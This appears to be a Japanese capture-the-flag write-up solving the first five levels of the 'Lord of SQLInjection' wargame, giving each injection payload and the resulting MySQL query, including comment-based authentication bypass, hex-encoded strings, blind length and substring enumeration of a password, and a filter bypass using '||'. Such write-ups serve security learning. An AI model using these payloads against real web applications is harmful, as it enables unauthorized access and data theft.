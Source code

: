 # Lord of SQLInjection writeup 01-05
## 01 - gremlin
GETパラメータ`id`と`pw`を特に無害化などしていないことが分かる。  
何か結果が返ればよいので、or文で条件を崩し、後方をコメントアウトする。

### 解答例
```
?id=1' or '1'='1'%23
```
> query : select id from prob_gremlin where id='1' or '1'='1'#' and pw=''

`%23`は`#`をURLエンコードしたもの。  
`#`のままブラウザでアクセスすると、URLフラグメントの扱いになるため。

### 別解
```
?id=1' or '1'='1'-- hoge
```
> query : select id from prob_gremlin where id='1' or '1'='1'-- hoge' and pw=''

MySQLの場合、`--`ではなく`-- `でコメントアウト。  
URL末尾のスペースはそのままだと無視されるので、` hoge`を入れてみた。

## 02 - cobolt

SQLの結果から、`id`が`admin`か確認しているので、その通り指定する。  
パスワードは分からないので前の問題同様、コメントアウトする。  

### 解答例
```
?id=admin'%23
```
> query : select id from prob_cobolt where id='admin'#' and pw=md5('')

## 03 - goblin
SQLの結果から、`id`が`admin`か確認しているが、既に`id='guest'`がベタ書きされている。  
また、クォーテーションを含むとエラーにされるので、`id='admin'`と書き足せない。  
文字列を条件にする場合、`'admin'`のようにせず、Hexで表すことができるので、試してみる。

```shell
$ echo -n admin | xxd
00000000: 6164 6d69 6e                             admin
```

### 解答例
```
?no=0 or id=0x61646d696e
```
> query : select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e

### 別解
絶対に想定解ではないが、これでも正解になった。  
`admin`の方が`guest`より前に来て、かつ、他に前に来るデータがないと思われる。  
```
?no=0 or 1=1 order by 1
```
> query : select id from prob_goblin where id='guest' and no=0 or 1=1 order by 1

## 04 - orc
`admin`のデータが取れれば取り合えずHello adminと表示してくれるが、  
実際のパスワードとGETパラメータの`pw`が一致していないとクリアできない。  
まずは`admin`の`pw`が何文字かを当てる。  

```
?pw=' or id='admin' and length(pw)=1%23
?pw=' or id='admin' and length(pw)=2%23
:
?pw=' or id='admin' and length(pw)=8%23
```
> query : select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)=8#'

Hello adminと表示されることでパスワードは8文字であることが分かる。  
1文字目は何か、2文字目は何か…ひたすら試行する。
```
?pw=' or id='admin' and substr(pw,1,1)=0%23
?pw=' or id='admin' and substr(pw,2,1)=0%23
?pw=' or id='admin' and substr(pw,2,1)=1%23
:
```

### 解答例
```
?pw=095a9852
```
> query : select id from prob_orc where id='admin' and pw='095a9852'

## 05 - prob_wolfman 
半角スペースが禁止されているので`or id='admin`のように書き足せない。  
MySQLだと`and`は`&&`、`or`は`||`でも書くことができる。  

### 解答例
```
?pw='||id='admin
```
> query : select id from prob_wolfman where id='guest' and pw=''||id='admin'
